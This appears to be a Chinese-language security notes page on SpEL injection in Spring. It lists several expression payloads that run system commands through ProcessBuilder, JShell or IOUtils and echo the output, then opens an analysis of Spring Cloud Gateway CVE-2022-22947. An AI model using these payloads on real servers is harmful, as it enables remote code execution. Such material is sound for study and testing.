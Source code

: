 ```java
Expression expression = parser.parseExpression(input);
```

getValue根据上下文获得表达式

```java
expression.getValue().toString();
```

如果向该Controller HTTP传参，参数名为Input，就能进行spel解析





## spel回显

1. `commons-io`组件回显。但是需要服务器存在该组件，一般都没有

   ```java
   T(org.apache.commons.io.IOUtils).toString(payload).getInputStream())
   ```

   

2. jdk>=9时使用JShell

```java
T(SomeWhitelistedClassNotPartOfJDK).ClassLoader.loadClass("jdk.jshell.JShell",true).Methods[6].invoke(null,{}).eval('java payload').toString()
```



3. jdk原生类BufferedReader

```java
new java.io.BufferedReader(new java.io.InputStreamReader(new ProcessBuilder( "whoami").start().getInputStream(), "gbk")).readLine()
```

4. scanner

```java
new java.util.Scanner(new java.lang.ProcessBuilder("ls").start().getInputStream(), "GBK").useDelimiter("asfsfsdfsf").next()
```

useDelimiter为分隔符



# Spring Cloud GateWay CVE-2022-22947



## 源码分析

Spring Cloud GateWay版本：3.1.0&<=3.0.0-3.0.6

源码：https://github.com/spring-cloud/spring-cloud-gateway/releases/tag/v3.1.0
